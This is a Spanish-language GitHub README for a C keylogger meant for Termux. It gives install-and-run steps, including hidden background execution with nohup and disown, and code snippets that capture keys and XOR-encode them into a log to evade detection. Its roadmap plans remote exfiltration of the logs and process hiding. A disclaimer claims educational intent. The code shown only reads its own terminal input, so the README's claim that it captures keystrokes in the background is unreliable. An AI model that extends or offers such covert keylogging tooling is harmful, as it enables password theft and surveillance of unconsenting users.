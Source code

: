 # 🔐 Keylogger en C para Termux

Captura de teclas con cifrado XOR y ejecución en segundo plano

Este proyecto es un keylogger básico en C diseñado para ejecutarse en Termux (Android/Linux). Captura pulsaciones de teclas en tiempo real y las almacena en un archivo cifrado con XOR para evitar detección fácil. Además, puede ejecutarse en segundo plano sin interferir con otras aplicaciones.
📌 Características

✅ Captura teclas sin necesidad de presionar Enter.
✅ Guarda las teclas en un archivo de log (log.txt).
✅ Cifra los datos usando XOR (0xAA) para evitar lectura directa.
✅ Corre en segundo plano usando nohup y disown.
✅ Descifrado de datos con un programa en C.
✅ Filtra caracteres no imprimibles para evitar datos corruptos.
## 📁 Estructura del Proyecto

📂 Keylogger

 ├── keylogger.c   # Captura y cifra teclas
 
 ├── decrypt.c     # Descifra el archivo log.txt
 
 ├── README.md     # Documentación del proyecto
 
 └── log.txt       # Archivo donde se guardan las teclas capturadas

## 🔧 Instalación y Uso

### 1️⃣ Clonar el repositorio

git clone https://github.com/V1nt3r4/keylogger_tool.git
cd keylogger_tool

### 2️⃣ Compilar el keylogger

    clang keylogger.c -o keylogger

### 3️⃣ Ejecutar el keylogger

    ./keylogger

🔹 Para ejecutarlo en segundo plano:

    nohup ./keylogger > /dev/null 2>&1 &
    disown

🔹 Para detenerlo:

    pkill keylogger

### 4️⃣ Ver el contenido del log (cifrado)

    cat log.txt

### 5️⃣ Descifrar el log

    clang decrypt.c -o decrypt
    ./decrypt

## 📜 Explicación del Código
### 🔹 1️⃣ Captura de teclas (get_key())

    char get_key() {
        struct termios oldt, newt;
        char ch;
        tcgetattr(STDIN_FILENO, &oldt);
        newt = oldt;
        newt.c_lflag &= ~(ICANON | ECHO);
        tcsetattr(STDIN_FILENO, TCSANOW, &newt);
        ch = getchar();
        tcsetattr(STDIN_FILENO, TCSANOW, &oldt);
        return ch;
    }

📌 Lógica:

  Modifica la terminal para desactivar el buffer de línea y eco de caracteres.
    Captura una tecla en tiempo real.
    Restaura la configuración original de la terminal.

### 🔹 2️⃣ Escritura segura en el archivo (log.txt)

    if (isprint(key)) {
    fputc(key ^ XOR_KEY, file);
    fflush(file);
    }

📌 Lógica:

  Filtra caracteres imprimibles para evitar datos corruptos.
    Cifra cada tecla con XOR (^ 0xAA) antes de escribirla en log.txt.
    fflush(file); asegura que los datos se guarden inmediatamente.

### 🔹 3️⃣ Manejo de señales (CTRL+C)

    void handle_exit(int sig) {
        if (file) fclose(file);
        printf("\n[+] Keylogger detenido. Datos guardados en      %s\n", LOG_FILE);
      exit(0);
    }

📌 Lógica:

  Intercepta CTRL+C para evitar que se cierre inesperadamente.
    Cierra correctamente el archivo log.txt antes de salir.

### 🔹 4️⃣ Descifrado de datos (decrypt.c)

    int ch;
    while ((ch = fgetc(file)) != EOF) {
    putchar(ch ^ XOR_KEY); // XOR inverso
    }

📌 Lógica:

  Lee cada carácter del archivo log.txt.
    Aplica XOR inverso (^ 0xAA) para recuperar las teclas originales.
    Muestra el resultado en pantalla.

## ⚠️ Advertencia y Mal Uso Potencial

### Uso Malicioso:

- **Captura de datos sensibles**: En manos de actores maliciosos, el keylogger podría utilizarse para capturar contraseñas, datos bancarios o información personal.
-  **Espionaje**: Un atacante podría monitorear las pulsaciones de teclas de un usuario para espiar conversaciones, correos electrónicos o mensajes privados.
- **Robo de identidad**: La información recopilada podría ser utilizada para suplantar la identidad del usuario y acceder a cuentas personales o corporativas.
- **Exfiltración de datos**: Combinado con técnicas de red, el keylogger puede enviar datos a un servidor remoto sin que el usuario lo note.

## 💻 Aplicaciones en Ciberseguridad
### 🔹 1️⃣ Seguridad Ofensiva (Pentesting)

- Se usa para testear seguridad en sistemas Linux.
- Puede demostrar fallos en la protección de terminales.
- Puede probar la efectividad de antivirus y herramientas de detección.

### 🔹 2️⃣ Seguridad Defensiva

- Ayuda a detectar comportamiento sospechoso en procesos.
- Puede ser usado para analizar técnicas de malware y crear contramedidas.
- Demuestra la importancia de proteger stdin en Linux.

### 🔹 3️⃣ Educación y Entrenamiento

-  Permite entender cómo funciona la captura de eventos de teclado en Linux.
- Introduce el concepto de cifrado XOR en aplicaciones de seguridad.
    Enseña cómo ocultar procesos en sistemas basados en Unix.

### ⚠️ Advertencia Legal

Este keylogger fue desarrollado con fines educativos y de auditoría en ciberseguridad.
El uso de este software en sistemas sin permiso es ilegal y puede tener consecuencias penales.

Úsalo bajo tu propia responsabilidad y solo en entornos controlados.

## 🎯 Mejoras Futuras

🔹 Enviar logs cifrados a un servidor remoto.
🔹 Mejor manejo de procesos y ocultación.
🔹 Soporte para capturar teclas especiales (Shift, Enter).
 
